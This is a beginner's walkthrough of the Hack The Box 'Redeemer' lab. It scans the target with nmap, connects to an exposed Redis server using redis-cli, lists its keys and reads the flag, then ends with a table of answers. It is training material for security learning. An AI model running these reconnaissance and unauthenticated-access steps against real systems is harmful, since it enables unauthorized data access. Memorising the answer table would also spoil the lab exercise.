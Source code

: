 # 🔓 Redeemer | Hack The Box Walkthrough

Note: I’m not an expert. I’m writing this blog just to document my learning journey. 🚀

---

## 🌐 Step 1: Connect to the HTB Network

Start by connecting to the Hack The Box VPN using the `htb.ovpn` file:

```bash
openvpn htb.ovpn
```

Wait for the message:

```
Initialization Sequence Completed
```

Once you're connected, spawn the target machine. My target machine IP was:

```
10.129.250.87
```

---

## 🔍 Step 2: Scan the Target

Run a full TCP port scan to identify open ports:

```bash
nmap -p- 10.129.250.87
```

### 📄 Nmap Output (Shortened):

```
PORT      STATE    SERVICE
6286/tcp  filtered unknown
6379/tcp  open     redis
14614/tcp filtered unknown
15032/tcp filtered unknown
19797/tcp filtered unknown
35460/tcp filtered unknown
51988/tcp filtered unknown
58252/tcp filtered unknown
```

Port `6379` is open and running **Redis**.

---

## 💾 Step 3: Connect to Redis

Use the `redis-cli` utility to connect:

```bash
redis-cli -h 10.129.250.87
```

Once connected, get detailed server info:

```bash
info
```

### 🔢 Redis Version:

```
redis_version:5.0.7
```

---

## 🔑 Step 4: Explore the Database

Check the number of keys:

```bash
keys *
```

### 🗝️ Output:

```
1) "flag"
2) "temp"
3) "stor"
4) "numb"
```

Retrieve the value of the flag:

```bash
get flag
```

🎉 **Flag:**

```
<FLAG REDACTED>
```

---

## ✅ Summary

| Task           | Answer               |
| -------------- | -------------------- |
| Open port      | `6379`               |
| Service        | `redis`              |
| DB type        | `In-memory Database` |
| CLI tool       | `redis-cli`          |
| Host flag      | `-h`                 |
| Info command   | `info`               |
| Version        | `5.0.7`              |
| Select DB      | `select`             |
| Number of keys | `4`                  |
| View keys      | `keys *`             |
| 🎯 Flag        | `<FLAG REDACTED>`    |

---

---
